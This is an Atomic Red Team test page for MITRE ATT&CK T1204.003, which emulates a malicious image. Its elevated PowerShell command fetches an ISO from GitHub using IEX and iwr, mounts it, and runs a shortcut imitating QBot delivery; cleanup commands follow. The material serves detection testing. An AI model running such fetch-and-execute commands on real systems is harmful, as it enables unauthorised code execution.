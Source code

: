 # T1204.003 - User Execution: Malicious Image
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1204/003)
<blockquote>Adversaries may rely on a user running a malicious image to facilitate execution. Amazon Web Services (AWS) Amazon Machine Images (AMIs), Google Cloud Platform (GCP) Images, and Azure Images as well as popular container runtimes such as Docker can be backdoored. Backdoored images may be uploaded to a public repository via [Upload Malware](https://attack.mitre.org/techniques/T1608/001), and users may then download and deploy an instance or container from the image without realizing the image is malicious, thus bypassing techniques that specifically achieve Initial Access. This can lead to the execution of malicious code, such as code that executes cryptocurrency mining, in the instance or container.(Citation: Summit Route Malicious AMIs)

Adversaries may also name images a certain way to increase the chance of users mistakenly deploying an instance or container from the image (ex: [Match Legitimate Name or Location](https://attack.mitre.org/techniques/T1036/005)).(Citation: Aqua Security Cloud Native Threat Report June 2021)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Malicious Execution from Mounted ISO Image](#atomic-test-1---malicious-execution-from-mounted-iso-image)


<br/>

## Atomic Test #1 - Malicious Execution from Mounted ISO Image
Adversaries may rely on a user running a malicious image to facilitate execution

**Supported Platforms:** Windows


**auto_generated_guid:** e9795c8d-42aa-4ed4-ad80-551ed793d006






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.003/src/qbot-test.iso" -OutFile "$env:TEMP\qbot-test.iso")
Mount-DiskImage -ImagePath "$env:TEMP\qbot-test.iso"
$mountedpath = (Get-DiskImage -ImagePath "$env:TEMP\qbot-test.iso" | Get-Volume).DriveLetter
$finalpath = $mountedpath + ":\"
cd $finalpath
.\calc.exe.lnk
```

#### Cleanup Commands:
```powershell
start-sleep -s 5
stop-process -Name "Calculatorapp" -Force 
dismount-diskimage -ImagePath "$env:TEMP\qbot-test.iso"
```





<br/>
